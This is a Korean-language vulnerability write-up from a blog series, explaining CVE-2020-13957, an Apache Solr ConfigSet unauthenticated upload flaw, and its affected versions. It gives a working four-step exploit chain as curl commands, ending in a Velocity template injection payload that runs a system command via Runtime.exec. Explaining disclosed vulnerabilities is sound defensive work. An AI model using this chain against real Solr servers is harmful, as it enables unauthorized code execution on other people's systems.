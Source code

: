 ```yaml
---
title: "[하루한줄] CVE-2020-13957: Apache Solr ConfigSet RCE Vulnerability"
author: L0ch
tags: [L0ch, rce, apache solr, cve, unauthrization upload]
categories: [1day1line]
date: 2020-11-20 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[CVE-2020-13957: Apache Solr ConfigSet RCE Vulnerability](https://github.com/Imanfeng/Apache-Solr-RCE#cve-2020-13957)



## Target

Apache Solr 6.6.0-6.6.5
Apache Solr 7.0.0-7.7.3
Apache Solr 8.0.0-8.6.2

## Explain

Apache Solr는 Apache Lucene을 기반으로 만들어진 검색 엔진입니다. 사용자는 특정 형식의 XML 파일을 서버에 업로드하여 인덱스를 생성하거나 검색 요청을 하여 결과를 XML 형식으로 얻을 수 있습니다.

이러한 Solr의 ConfigSet API 에 unauthrization config upload 가 가능해 RCE까지 이어질 수 있는 취약점이 발견되었습니다.

사용자는 ConfigSet API를 사용해 configset을 업로드하고 logical index를 구성하는 컬렉션을 생성할 수 있습니다. 이 때 원격 코드 실행에 악용될 수 있는 일부 기능들을 필터링해 악성 컬렉션이 구성되는 것을 방지합니다. 그러나 `configset.upload.enabled` 옵션이 true로 설정되어 있으면 이를 UPLOAD 와 CREATE 로 우회할 수 있습니다.

1. 먼저 악성 configset을 포함하는 압축 파일을 UPLOAD 합니다. 

    ```jsx
    curl -X POST --header "Content-Type:application/octet-stream"--data-binary@7.zip "http://[host]/solr/admin/configs?action=UPLOAD&name=file1"
    ```

2. CREATE는 기존 configset을 기반으로 새로운 configset을 작성할 수 있습니다. 이를 이용해 UPLOAD된 configset을 기반으로 새로운 configset을 만들면 악용 가능한 기능들을 필터링을 하지 않아 인증 검사 로직을 우회할 수 있습니다.

    ```jsx
    curl "http://[host]/solr/admin/configs?action=CREATE&name=file3&baseConfigSet=file1&configSetProp.immutable=false&wt=xml&omitHeader=true"
    ```

3. 2에서 얻은 새로운 configset를 기반으로 악성 컬렉션을 생성합니다.

    ```jsx
    curl "http://[host]/solr/admin/collections?action=CREATE&numShards=1&name=file2&collection.configName=file3"
    ```

4. 생성된 악성 컬렉션은 원격 코드 실행에 사용할 수 있습니다.

    ```jsx
    http://[host]/solr/newCollection3/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    ```
    
    



## Reference

https://www.secpulse.com/archives/144081.html

https://issues.apache.org/jira/browse/SOLR-14925